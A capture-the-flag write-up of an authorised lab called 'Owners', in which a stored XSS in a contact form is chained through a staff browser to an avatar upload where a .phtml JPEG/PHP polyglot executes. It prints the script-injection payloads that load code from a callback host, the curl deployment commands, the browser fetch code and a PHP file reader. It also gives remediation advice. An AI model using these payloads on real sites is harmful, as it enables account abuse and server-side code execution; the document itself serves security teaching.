> **Publication note:** This article documents an authorised WebVerse educational lab reproduced on 18 August 2026. Reusable sessions, credentials, and literal challenge proofs are redacted. Temporary lab hostnames remain in screenshots where they make the request flow easier to follow. The Caido and CLI-assisted tracks used separate fresh instances.

## Executive Summary

Owners needed two weaknesses to work together. A public contact message was stored and later rendered as active HTML in the protected staff inbox. The stored script ran in the staff browser, so I could request the Settings page with that browser's existing session.

The Settings page exposed an avatar upload. I compared three filenames built with the same JPEG and PHP design. The application did not expose the `.php` file as an avatar, served `.php.jpg` as a static JPEG, and executed the PHP appended to `.phtml`. The final callback returned the current challenge proof, and I stopped after WebVerse accepted it.

> **CONFIRMED FINDING**
>
> Stored XSS in the contact-message workflow can reach an authenticated avatar upload. The upload path serves `.php.jpg` as static image content but executes `.phtml` through the PHP handler.

## 1. Report Profile

| Field | Verified value |
| --- | --- |
| Platform | WebVerse |
| Lab | Owners |
| Difficulty | Medium |
| Reproduction date | 18 August 2026 |
| Public entry point | `POST /contact.php` |
| Privileged consumer | Protected staff message viewer |
| Privileged pivot | `GET /admin/settings.php` from the signed-in staff browser |
| State-changing function | `POST /admin/settings.php?action=avatar` |
| Finding | Stored XSS chained to a dangerous file upload and `.phtml` PHP execution |
| Root causes | [CWE-79](/cwes/cwe-79/) and [CWE-434](/cwes/cwe-434/) |
| Evidence | Caido, WebVerse Interact, browser callbacks, `curl`, solved-state UI |
| Proxy reproduction | Passed |
| CLI-assisted reproduction | Passed on a separate instance |

### Verified Attack Chain

```text
Public contact form
  > stored contact message
  > Stored XSS in the staff inbox
  > same-origin Settings request from the signed-in staff browser
  > multipart avatar upload
  > .php not exposed as an avatar
  > .php.jpg stored and served as image/jpeg
  > .phtml handled by PHP
  > WEBVERSE{REDACTED} callback
  > platform solved state
Stop
```

## 2. Scope and Evidence Limits

I used two fresh Owners instances. The Caido track produced the accepted solved state. I then repeated the chain on a separate instance for the CLI-assisted track.

- I did not extract a staff cookie, password, bearer token, or reusable credential. The authenticated browser kept its own session.
- The server-side reader checked only two environment variables and eight fixed challenge paths.
- I did not use a reverse shell, persistence, operating-system commands, lateral movement, or broad filesystem enumeration.
- The CLI track used `curl` for public requests. The authenticated avatar upload stayed inside the staff browser because I did not export its session.
- Public examples use `<LAB_HOST>`, `<INTERACT_HOST>`, and `<INTERNAL_STAFF_ORIGIN>` placeholders.

## 3. Evidence-Led Chronological Reproduction

I kept the reproduction in the order I tested it. Each step starts with the request or command and ends with the response or callback that guided the next step.

1. Map the public contact form, protected staff routes, and stylesheet clue.
2. Record a harmless contact submission.
3. Store a script reference through the contact form.
4. Confirm that the script runs in `/admin/messages.php`.
5. Read the avatar form from the same staff browser without taking its cookie.
6. Compare `.php`, `.php.jpg`, and `.phtml` using the same JPEG and PHP design.
7. Stop after `.phtml` returns the challenge proof and WebVerse accepts it.

### How Interact Fits into the Chain

Interact was both the script host and the callback log. Every stage followed the same five-part flow:

1. I deployed one JavaScript file to `https://<INTERACT_HOST>/__deploy_payload__`.
2. I stored an HTTP script reference in the public contact message.
3. The staff bot opened that stored message in `/admin/messages.php`.
4. The script ran in the signed-in staff browser and made the same-origin Settings request or upload.
5. The script sent only the result needed for that stage back to Interact.

The payload deployment used HTTPS, but the stored script URL and callback used HTTP. Earlier HTTPS callback attempts produced no hit. I treated that as a transport problem, not as proof that the message was safe. The HTTP payload URL produced the first complete callback.

This distinction also explains the Terminal section. `curl` deployed the script and submitted the public message. It did not perform the authenticated avatar upload. That request came from the staff browser with its existing session.

## 4. Caido/Burp Reproduction

### Step 1: Map the Contact Form

I opened the public contact page first. It exposed a `POST` form with `name`, `email`, and `message` fields. The page also said that Cole or Reid would read each message from the dashboard.

```http
GET /contact.php HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -sS 'https://<LAB_HOST>/contact.php' \
  | grep -E 'form|name="name"|name="email"|name="message"|dashboard'
```



**Figure 1: Contact contract.** The page shows the three input fields and connects the submitted message to the staff dashboard.

### Step 2: Confirm the Login Boundary

Anonymous requests to both staff routes were redirected to the login page.

```http
GET /admin/messages.php HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -sS -o /dev/null -D - \
  'https://<LAB_HOST>/admin/messages.php'
```



**Figure 2: Anonymous control.** `/admin/messages.php` returns `302` with `Location: /admin/login.php`. The Settings route behaved the same way.

### Step 3: Read the Public Stylesheet Clue

The stylesheet contained comments for the message view and the Settings avatar UI. This was only a clue. It gave me a reason to test the message-to-settings path without guessing unrelated routes.

```http
GET /static/style.css HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -sS 'https://<LAB_HOST>/static/style.css'
```



**Figure 3: Public source clue.** The comments name the message view as an XSS sink and include the Settings avatar selectors.

### Step 4: Record a Normal Contact Submission

Before changing the message, I sent a harmless baseline.

```http
POST /contact.php HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded

name=Owners+Baseline&email=baseline%40example.test&message=Baseline+reproduction+message
```

```bash
curl -sS -i 'https://<LAB_HOST>/contact.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'name=Owners Baseline' \
  --data-urlencode 'email=baseline@example.test' \
  --data-urlencode 'message=Baseline reproduction message'
```

The server returned `200` with `Thanks, message sent.` This was the normal storage response. It did not prove script execution.

### Step 5: Store the Script and Confirm Where It Runs

The first script only sent the current path and page title to Interact. It did not read the page body or copy the staff session. The full script is collapsed below so the proof chain stays easy to scan. Open it to inspect or copy the payload.



I saved the expanded block as `owners-stage1.js`. This small helper turns any saved script into the JSON body expected by Interact:

```bash
prepare_payload() {
  local script="$1"
  jq -n \
    --arg name "$script" \
    --rawfile content "$script" \
    '{name:$name,content:$content}' \
    > "$script.deploy.json"
}
```

I deployed it through the HTTPS Interact payload endpoint and stored its HTTP script URL in the contact message.

```http
POST /__deploy_payload__ HTTP/1.1
Host: <INTERACT_HOST>
Content-Type: application/json

{"name":"owners-stage1.js","content":"<STAGE_1_JAVASCRIPT>"}
```

```bash
prepare_payload owners-stage1.js

curl -sS -i -X POST \
  'https://<INTERACT_HOST>/__deploy_payload__' \
  -H 'Content-Type: application/json' \
  --data-binary @owners-stage1.js.deploy.json
```



**Figure 4: Stage 1 deployment.** Interact accepts the small callback script.

```http
POST /contact.php HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded

name=Owners+Stage1&email=stage1%40example.test&message=%3Cscript+src%3D%22http%3A%2F%2F%3CINTERACT_HOST%3E%2F__p__%2Fowners-stage1.js%22%3E%3C%2Fscript%3E
```

```bash
curl -sS -i 'https://<LAB_HOST>/contact.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'name=Owners Stage1' \
  --data-urlencode 'email=stage1@example.test' \
  --data-urlencode 'message=<script src="http://<INTERACT_HOST>/__p__/owners-stage1.js"></script>'
```



**Figure 5: Stored trigger.** The contact endpoint accepts the message and returns the same success marker as the harmless baseline.

The callback reported `/admin/messages.php` and the title `Messages · Owners Staff` from HeadlessChrome. That is the point where the stored message became confirmed Stored XSS in the protected staff viewer.



**Figure 6: Staff-view execution.** The path and title show exactly where the stored script ran.



**Interact Stage 1 history.** The payload request and callback appear together. The selected callback includes the staff-browser headers, while the query records only the protected path and page title.

### Step 6: Read the Settings Form from the Staff Browser

I used the same browser context for a read-only request to Settings. I first checked the raw HTML and then the parsed DOM for a WebVerse proof value. Both returned `NO_FLAG`. Those results only ruled out a literal proof in the tested Settings response. They did not rule out another authenticated action.

```javascript
const html = await fetch('/admin/settings.php', {
  credentials: 'include'
}).then(response => response.text());

const rawMatch = html.match(/WEBVERSE\{[^}]+\}/);
const doc = new DOMParser().parseFromString(html, 'text/html');
const domText = [
  doc.documentElement.textContent,
  ...[...doc.querySelectorAll('*')].flatMap(element => [
    ...[...element.attributes].map(attribute => attribute.value),
    'value' in element ? element.value : ''
  ])
].join('\n');
const domMatch = domText.match(/WEBVERSE\{[^}]+\}/);

// Both checks returned NO_FLAG on this response.
```

I then mapped the form structure. The callback returned only the response status, title, form actions, methods, encodings, field names and types, and image paths. I did not collect form values.



```http
POST /__deploy_payload__ HTTP/1.1
Host: <INTERACT_HOST>
Content-Type: application/json

{"name":"owners-stage2.js","content":"<SETTINGS_MAPPER_JAVASCRIPT>"}
```

```bash
prepare_payload owners-stage2.js

curl -sS -i -X POST \
  'https://<INTERACT_HOST>/__deploy_payload__' \
  -H 'Content-Type: application/json' \
  --data-binary @owners-stage2.js.deploy.json
```

`owners-stage2.js.deploy.json` contains the payload name and the JavaScript shown above. Keeping the script in a file avoids an unreadable one-line JSON command.

```http
POST /contact.php HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded

name=Owners+Stage2&email=stage2%40example.test&message=%3Cscript+src%3D%22http%3A%2F%2F%3CINTERACT_HOST%3E%2F__p__%2Fowners-stage2.js%22%3E%3C%2Fscript%3E
```

```bash
curl -sS -i 'https://<LAB_HOST>/contact.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'name=Owners Stage2' \
  --data-urlencode 'email=stage2@example.test' \
  --data-urlencode 'message=<script src="http://<INTERACT_HOST>/__p__/owners-stage2.js"></script>'
```



**Figure 7: Settings mapper.** The payload is deployed through the same Interact workflow.


**Figure 8: Settings trigger.** The message causes the staff browser to request its own Settings page.

Anonymous Settings requests returned `302`, but the staff browser received `200`. The form used `POST /admin/settings.php?action=avatar`, `multipart/form-data`, and a file field named `avatar`. No cookie or token was copied out of the browser.



**Figure 9: Authenticated pivot.** The callback confirms the avatar form from the signed-in staff context.



**Interact Stage 2 history.** The callback sits in the same request log as the Stage 1 proof. Its decoded result records the Settings page and avatar upload contract that guided the next test.

### Step 7: Compare Three Avatar Filenames

Each test used the same 1,330-byte JPEG/PHP polyglot and declared `image/jpeg`. Only the filename, browser guard, and callback marker changed. The verified polyglot SHA-256 was `7863f1d9e57b4897783d9fac7ce7a41dc9d81fbe7897141a35e097d481c1937e` in both reproduction tracks.

```php
<?php
$candidates = array();
$envFlag = getenv('FLAG');
$envWebverse = getenv('WEBVERSE_FLAG');
if ($envFlag !== false) $candidates[] = $envFlag;
if ($envWebverse !== false) $candidates[] = $envWebverse;

$paths = array(
  '/flag',
  '/flag.txt',
  '/root/flag.txt',
  '/var/www/flag',
  '/var/www/flag.txt',
  '/var/www/html/flag',
  '/var/www/html/flag.txt',
  '/var/www/html/admin/flag.txt'
);

foreach ($paths as $path) {
  if (is_readable($path)) {
    $value = file_get_contents($path);
    if ($value !== false) $candidates[] = $value;
  }
}

foreach ($candidates as $value) {
  if (preg_match('/WEBVERSE\{[^}]+\}/', $value, $match)) {
    echo $match[0];
    exit;
  }
}

echo 'NO_FLAG';
?>
```

The reader had no parameters, shell, command runner, directory walk, or persistence. It returned the first matching lab proof or `NO_FLAG`.

The same browser-side upload logic was used for all three filenames. I changed only the filename, browser guard, payload name, and callback marker. Each test below now includes the complete script used for that stage. The same source logic is also shown with the Terminal/CLI values in the second reproduction.

For each filename, I placed the stage script in a JSON deployment file and sent it to Interact:

```json
{
  "name": "<STAGE_PAYLOAD_NAME>",
  "content": "<AVATAR_UPLOAD_JAVASCRIPT>"
}
```

```bash
prepare_payload owners-stage3.js

curl -sS -i -X POST \
  'https://<INTERACT_HOST>/__deploy_payload__' \
  -H 'Content-Type: application/json' \
  --data-binary @owners-stage3.js.deploy.json
```

The three stage names were:

| Test | Payload name | Upload filename | Deployment body |
| --- | --- | --- | --- |
| `.php` control | `owners-stage3.js` | `owners_flag_probe_run1.php` | `owners-stage3.js.deploy.json` |
| `.php.jpg` control | `owners-stage3b.js` | `owners_flag_probe_run1.php.jpg` | `owners-stage3b.js.deploy.json` |
| `.phtml` check | `owners-stage4.js` | `owners_flag_probe_run1.phtml` | `owners-stage4.js.deploy.json` |

The public contact message then loaded the matching payload:

```http
POST /contact.php HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded

name=<STAGE_NAME>&email=<STAGE_EMAIL>&message=%3Cscript+src%3D%22http%3A%2F%2F%3CINTERACT_HOST%3E%2F__p__%2F%3CSTAGE_PAYLOAD_NAME%3E%22%3E%3C%2Fscript%3E
```

```bash
curl -sS -i 'https://<LAB_HOST>/contact.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'name=<STAGE_NAME>' \
  --data-urlencode 'email=<STAGE_EMAIL>' \
  --data-urlencode 'message=<script src="http://<INTERACT_HOST>/__p__/<STAGE_PAYLOAD_NAME>"></script>'
```

The browser payload, not the public request, created the authenticated multipart upload.

| Variant | Storage result | Direct handling |
| --- | --- | --- |
| `.php` | Current avatar stayed `default.jpg`; predicted file returned `404` | No execution |
| `.php.jpg` | Stored as the current avatar | `200 image/jpeg` with JPEG/JFIF bytes; PHP stayed data |
| `.phtml` | Stored as the current avatar resource | PHP handler returned `WEBVERSE{REDACTED}` |

#### 7.1 `.php` Negative Control

The staff browser generated the authenticated multipart request. The session value stayed in the browser.



```http
POST /admin/settings.php?action=avatar HTTP/1.1
Host: <INTERNAL_STAFF_ORIGIN>
Cookie: <EXISTING_STAFF_SESSION>
Content-Type: multipart/form-data; boundary=<BOUNDARY>

--<BOUNDARY>
Content-Disposition: form-data; name="avatar"; filename="<PROBE_BASENAME>.php"
Content-Type: image/jpeg

<VALID_JPEG_BYTES_PLUS_SMALL_PHP_READER>
--<BOUNDARY>--
```

There is no direct `curl` equivalent for this upload because the staff session was not exported.



**Figure 10: `.php` control deployment.** The staff browser submits the first filename variant.

The upload page returned `200`, but the current avatar remained `default.jpg` and the predicted `.php` resource returned `404`. This is why the page status alone was not enough to claim storage.



**Figure 11: `.php` control result.** The response is `NO_FLAG`, the avatar is unchanged, and the predicted resource is missing.



**Interact `.php` history.** The log keeps the Stage 1 and Settings callbacks next to the `.php` result. The selected callback reports the unchanged avatar and missing predicted resource.

#### 7.2 `.php.jpg` Storage and Static-Serving Control

I changed only the final filename. The callback showed the new resource as the current avatar and returned `200`, but it did not return a WebVerse proof value.



```bash
prepare_payload owners-stage3b.js

curl -sS -i -X POST \
  'https://<INTERACT_HOST>/__deploy_payload__' \
  -H 'Content-Type: application/json' \
  --data-binary @owners-stage3b.js.deploy.json
```



**Figure 12: `.php.jpg` control deployment.** The JPEG-backed file uses the multi-extension filename.



**Figure 13: `.php.jpg` control result.** The file becomes the current avatar, while the execution check remains `NO_FLAG`.



**Interact `.php.jpg` history.** The new callback appears after the `.php` control and records the stored avatar path without a proof value.

```http
GET /uploads/avatars/<PROBE_BASENAME>.php.jpg HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -sS -D - -o /tmp/owners_probe.bin \
  'https://<LAB_HOST>/uploads/avatars/<PROBE_BASENAME>.php.jpg'
```



**Figure 14: Static readback.** The route returns `200`, `Content-Type: image/jpeg`, and a JPEG/JFIF body. The appended PHP remains file data.

#### 7.3 `.phtml` Execution Check

For the final test I kept the JPEG and PHP design and changed the filename to `.phtml`.



```bash
prepare_payload owners-stage4.js

curl -sS -i -X POST \
  'https://<INTERACT_HOST>/__deploy_payload__' \
  -H 'Content-Type: application/json' \
  --data-binary @owners-stage4.js.deploy.json
```

```text
filename="<PROBE_BASENAME>.phtml"
Content-Type: image/jpeg
body: <VALID_JPEG_BYTES_PLUS_SMALL_PHP_READER>
```

```text
status=FLAG
flag=WEBVERSE{REDACTED}
source=/uploads/avatars/<PROBE_BASENAME>.phtml
```



**Figure 15: `.phtml` deployment.** The final browser payload reuses the same small proof reader.



**Figure 16: Final staff trigger.** The staff browser starts the authenticated upload.

The callback returned `status=FLAG` and named the uploaded `.phtml` file as the source. This result is different from the static `.php.jpg` control and confirms PHP handling for the tested `.phtml` resource.



**Interact payload registry.** The final state contains the Stage 1, Settings, `.php`, `.php.jpg`, and `.phtml` scripts. The raw final callback screenshot is not published because its encoded query contained the literal challenge proof. The redacted query above preserves the result and source path.

### Step 8: Stop at the Solved State

WebVerse displayed `Challenge Solved` and `Flag accepted`. I did not send further target-side requests after that result.



**Figure 18: Platform confirmation.** The objective was accepted and the lab was marked solved.

## 5. Terminal/CLI Reproduction

I repeated the chain on a separate fresh instance. `curl` covered the public requests, triggers, and public file readback. The authenticated avatar upload still ran in the staff browser because I did not take its session.

The Terminal/CLI run used the same browser-side logic as the Caido/Burp run. Only the payload names, guards, callback paths, and probe filenames changed to the `owners-cli-*` set recorded in the second Interact registry. Every step below includes its complete script in the collapsed Interact block.

The Stage 1 evidence recorded an inline JSON command. The copyable version below uses the same content from a saved file, which keeps every stage readable:

```bash
deploy_payload() {
  local script="$1"
  jq -n \
    --arg name "$script" \
    --rawfile content "$script" \
    '{name:$name,content:$content}' \
    > "$script.deploy.json"

  curl -sS -i -X POST \
    'https://<INTERACT_HOST>/__deploy_payload__' \
    -H 'Content-Type: application/json' \
    --data-binary @"$script.deploy.json"
}
```

Each saved JavaScript file uses the shared payload logic documented in both sections, with the `owners-cli-*` name and callback path for this second instance.

### Step 1: Confirm the Contact Contract

```bash
curl -sS 'https://<LAB_HOST>/contact.php' \
  | grep -E 'form|name="name"|name="email"|name="message"|dashboard'
```



**Figure 19: CLI contact mapping.** The filtered HTML shows the form method, action, three fields, and dashboard text.

### Step 2: Confirm Both Anonymous Redirects

```bash
curl -sS -o /dev/null -D - \
  'https://<LAB_HOST>/admin/messages.php'
```



**Figure 20: CLI messages control.** The route returns `302` and points to `/admin/login.php`.

```bash
curl -sS -o /dev/null -D - \
  'https://<LAB_HOST>/admin/settings.php'
```



**Figure 21: CLI Settings control.** The second protected route has the same login boundary.

### Step 3: Deploy and Trigger Stored XSS



```bash
deploy_payload owners-cli-stage1.js
```

```bash
curl -sS -i 'https://<LAB_HOST>/contact.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'name=Owners CLI Stage1' \
  --data-urlencode 'email=stage1@example.test' \
  --data-urlencode 'message=<script src="http://<INTERACT_HOST>/__p__/owners-cli-stage1.js"></script>'
```



**Figure 22: CLI Stage 1.** The payload deployment and contact submission both return their expected responses.

The callback again reported `/admin/messages.php` and the staff-page title.



**Figure 23: CLI Stored XSS proof.** The message submitted by `curl` executes in the same protected viewer.



**CLI Interact Stage 1 history.** The request log connects the payload load to the callback from the protected message viewer.

### Step 4: Confirm the Settings Pivot



```bash
deploy_payload owners-cli-stage2.js
```

```bash
curl -sS -i 'https://<LAB_HOST>/contact.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'name=Owners CLI Stage2' \
  --data-urlencode 'email=stage2@example.test' \
  --data-urlencode 'message=<script src="http://<INTERACT_HOST>/__p__/owners-cli-stage2.js"></script>'
```



**Figure 24: CLI Settings trigger.** The public request stores the second script reference.

The callback returned Settings status `200`, the staff title, and the multipart avatar contract.



**Figure 25: CLI-assisted Settings proof.** The independent instance reaches the same authenticated form.



**CLI Interact Stage 2 history.** The Settings callback follows the Stored XSS callback and returns the same avatar form contract as the Caido track.

### Step 5: Repeat the `.php` Control



```bash
deploy_payload owners-cli-stage3.js
```

```bash
curl -sS -i 'https://<LAB_HOST>/contact.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'name=Owners CLI Stage3 PHP' \
  --data-urlencode 'email=stage3@example.test' \
  --data-urlencode 'message=<script src="http://<INTERACT_HOST>/__p__/owners-cli-stage3.js"></script>'
```



**Figure 26: Independent `.php` control.** The upload page returns `200`, but the avatar remains `default.jpg` and the predicted resource returns `404`.



**CLI Interact `.php` history.** The callback records the unchanged avatar and missing `.php` resource after the public trigger.

### Step 6: Repeat the `.php.jpg` Control



```bash
deploy_payload owners-cli-stage3b.js
```

```bash
curl -sS -i 'https://<LAB_HOST>/contact.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'name=Owners CLI Stage3B PHPJPG' \
  --data-urlencode 'email=stage3b@example.test' \
  --data-urlencode 'message=<script src="http://<INTERACT_HOST>/__p__/owners-cli-stage3b.js"></script>'
```



**Figure 27: Independent `.php.jpg` control.** The resource becomes the current avatar, returns `200`, and produces no proof value.



**CLI Interact `.php.jpg` history.** This callback follows the `.php` control and records the stored multi-extension resource.

```bash
curl -sS -D - -o /tmp/owners_cli_probe.bin \
  'https://<LAB_HOST>/uploads/avatars/owners_cli_probe.php.jpg'
```



**Figure 28: CLI readback.** The file returns `200` with `Content-Type: image/jpeg`.

```bash
xxd -l 32 /tmp/owners_cli_probe.bin
```



**Figure 29: Local file check.** The first bytes show the JPEG magic and JFIF marker without another target request.

### Step 7: Repeat the `.phtml` Test



```bash
deploy_payload owners-cli-stage4.js
```

```bash
curl -sS -i 'https://<LAB_HOST>/contact.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'name=Owners CLI Stage4 PHTML' \
  --data-urlencode 'email=stage4@example.test' \
  --data-urlencode 'message=<script src="http://<INTERACT_HOST>/__p__/owners-cli-stage4.js"></script>'
```



**Figure 30: CLI final trigger.** The contact request stores the last script reference on the second instance.

The callback again returned `status=FLAG` and the uploaded `.phtml` path. The literal value is redacted.

```text
status=FLAG
flag=WEBVERSE{REDACTED}
source=/uploads/avatars/<PROBE_BASENAME>.phtml
```



**CLI Interact payload registry.** The separate instance contains all five scripts used in order. The final raw callback screenshot is withheld because its encoded query contained the literal proof. The redacted result above records the status and source path.

The account had already marked Owners as solved during the Caido track, so the second instance could not create another account-level acceptance screen. Figure 18 is the platform confirmation. The redacted CLI callback is the independent proof from the second instance.

## 6. Controls and Results

| Control | Result | Why it matters |
| --- | --- | --- |
| Harmless contact message | `200` and normal success marker | Records the expected storage response before the XSS change |
| Anonymous staff routes | Both redirect to `/admin/login.php` | Shows why Settings `200` from the staff browser is different |
| `.php` upload | Current avatar unchanged; predicted file `404` | Shows that a `200` upload-page response does not prove storage |
| `.php.jpg` upload | Stored and served as `image/jpeg`; no PHP output | Separates storage from execution |
| `.phtml` upload | Callback returns `WEBVERSE{REDACTED}` | Shows the extension-specific PHP handling in the tested upload path |

Both fresh instances reached the same result. The first produced the accepted WebVerse solve. The second repeated the Stored XSS, Settings pivot, filename controls, and final `.phtml` callback.

## 7. Root Cause and Classification

### 7.1 Stored Message Content Runs in the Staff Viewer

The application stores the public contact message and renders it as active HTML in the protected inbox. The external script executes in the signed-in staff browser. This maps to **CWE-79**.

### 7.2 The Avatar Upload Accepts an Executable Extension

The avatar workflow accepts a JPEG-backed file named with `.phtml`, stores it in a public upload path, and lets the PHP handler execute the appended code. This maps to **CWE-434**.

| CWE | Name | Evidence |
| --- | --- | --- |
| [CWE-79](/cwes/cwe-79/) | Improper Neutralization of Input During Web Page Generation | Stored contact content loads an external script in the protected message viewer |
| [CWE-434](/cwes/cwe-434/) | Unrestricted Upload of File with Dangerous Type | A JPEG-backed `.phtml` avatar is stored in a PHP-handled public path |

The chain proves PHP execution in this lab. It does not prove an interactive shell, persistence, privilege escalation, or unrestricted filesystem access.

## 8. Confirmed Impact

An anonymous user can place script content into the staff message workflow. When the signed-in staff browser reviews it, the script can make same-origin requests with that browser session. The unsafe avatar upload then turns that browser access into server-side PHP execution.

The reproduction reached the WebVerse objective without taking a staff credential or opening an interactive shell. I do not claim database access, persistence, operating-system command execution, or broader server compromise.

## 9. Remediation

### 9.1 Fix the Message Viewer

- Render contact fields as text with output encoding for the exact HTML context.
- If limited markup is required, use a strict allowlist sanitizer.
- Block scripts, event handlers, active SVG or MathML content, and dangerous URL schemes.
- Add a restrictive Content Security Policy.
- Consider rendering untrusted staff-review content on an isolated origin without the staff session.

### 9.2 Fix the Avatar Upload

- Decode and re-encode uploaded avatars into an approved image format.
- Generate the stored filename and extension on the server.
- Store uploads outside the executable webroot or on a dedicated static origin.
- Disable PHP and CGI handlers in upload directories, including alternative PHP extensions.
- Serve images with a fixed safe `Content-Type` and `X-Content-Type-Options: nosniff`.

## 10. How to Verify the Fix

1. Submit a harmless contact message and confirm that the staff page renders it as text.
2. Confirm that script tags, event handlers, and active SVG content do not execute in the message viewer.
3. Verify that untrusted message content cannot use the staff session for administrative requests.
4. Upload valid images using `.php`, `.phtml`, `.phar`, case variants, and multi-extension names. The server should reject or safely re-encode them before storage.
5. Confirm that stored avatars receive server-generated names and live in a non-executable location.
6. Request every tested upload path directly and confirm that none can run PHP.

## 11. Conclusion

Owners starts with a basic output-handling bug, but the affected viewer is already signed in. That changes the impact. The stored message ran in the staff inbox, the same browser reached Settings, and the avatar upload accepted a filename handled as PHP.

The controls made the final result clear. `.php` was not exposed as an avatar, `.php.jpg` was stored but served as a JPEG, and `.phtml` ran the small proof reader. The Caido and CLI-assisted tracks reached the same result on separate fresh instances.
